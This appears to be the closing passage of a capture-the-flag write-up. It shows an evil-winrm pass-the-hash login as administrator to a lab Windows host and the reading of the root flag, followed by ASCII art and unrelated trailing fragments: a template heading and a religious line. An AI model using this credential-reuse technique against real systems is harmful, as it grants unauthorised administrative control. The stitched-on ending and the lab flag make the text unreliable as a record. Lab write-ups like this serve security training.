evil-winrm -i stellarcomms.local -u 'administrator' -H 'd3a97bfa75ebed92165ea2d67cd21002' 
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/10/2025  10:50 AM           1049 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt

FLAG[OrbitMaster_Access_Granted]

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

```

### Resources used

Action items, timeline, and resource requirements

__**Jesus only, Jesus ever**__